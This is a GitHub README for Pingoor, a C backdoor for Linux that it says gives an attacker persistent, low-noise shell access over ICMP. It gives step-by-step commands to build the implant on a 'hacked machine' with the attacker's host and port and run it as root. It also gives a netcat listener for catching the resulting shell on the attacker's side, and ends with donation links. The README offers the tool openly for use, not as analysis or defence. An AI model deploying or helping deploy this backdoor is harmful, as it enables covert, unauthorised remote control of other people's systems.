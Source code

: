 <h1 align="center">「🚪」About Pingoor</h1>

<p align="center"><img src="assets/banner.png"></p>

<p align="center">Pingoor is a backdoor developed in C for the GNU/Linux operating system. Its main characteristic is to use the ICMP protocol to give the attacker access to the shell of a machine, making its access persistent with little noise.</p>

## How to Use

```
# Hacked machine
$ git clone https://github.com/brosck/Pingoor.git
$ cd Pingoor
$ HOST=<YOURHOST> PORT=<YOURPORT> make
$ sudo ./pingoor
```

```
# Attacker machine
nc -lnvp <YOURPORT>
```

## Buy me a coffee?

<a href="https://pixgg.com/MrEmpy" target="_blank">
  <img src="https://pixgg.com/img/logo-darkmode.046d3b61.svg" height="30" widght="30">
</a>
</br>
</br>
<a href="https://www.buymeacoffee.com/mrempy" target="_blank">
  <img src="https://play-lh.googleusercontent.com/aMb_Qiolzkq8OxtQZ3Af2j8Zsp-ZZcNetR9O4xSjxH94gMA5c5gpRVbpg-3f_0L7vlo" height="50" widght="50">
</a>
